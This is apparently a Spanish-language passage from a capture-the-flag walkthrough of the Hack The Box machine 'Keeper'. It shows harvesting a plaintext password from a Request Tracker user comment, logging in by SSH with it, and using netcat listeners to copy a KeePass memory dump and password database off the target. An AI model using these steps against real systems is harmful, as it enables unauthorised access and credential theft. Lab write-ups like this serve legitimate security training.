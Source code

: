 ![[Keeper5.png]]
Introducimos las credenciales en http://tickets.keeper.htb/rt/ y listo. ya estamos adentro

![[Keeper8.png]]

--------

# Conexion por [[ssh]]

Vamos a ir a ver todos los usuarios, a la parte de *users* y despues hacer click en *select* como muestra la imagen
![[Keeper9.png]]
Nos aparecen dos usuarios, ya sabemos que existe otro aparte de root que se llama Inogaard
![[Keeper10.png]]
Si hacemos click sobre su nombre, nos van a salir todas las configuraciones del usuario
![[Keeper11.png]]
Y como vemos en el comentario, nos da la contraseña Welcome2023!

### Ahora vamos a probar conectar por [[ssh]] con estas credenciales, ya que estaba abierto el puerto 22

```
ssh lnorgaard@10.10.11.227 -p 22
```
*Credenciales:* lnorgaard:Welcome2023!
![[Keeper12.png]]
Ya estamos dentro de la maquina

---
# [[Tratamiento de la TTY]]

------
# [[Herramientas-Comandos/unzip]] y nos pasamos los archivos a nuestra maquina con [[Netcat]]

En el escritorio del usuario *Inogaard* Encontramos un archivo *RT30000.zip* asi que lo vamos a descomprimir con [[Herramientas-Comandos/unzip]] usando el comando `unzip RT30000.zip`

![[Keeper13.png]]


Ahora nos vamos a pasar los archivos a nuestra maquina, asi que nos ponemos en escucha con [[Netcat]] desde la maquina victima

```shell
nc -nlvp 5000 < KeePassDumpFull.dmp
nc -nlvp 5000 < passcodes.kdbx
```
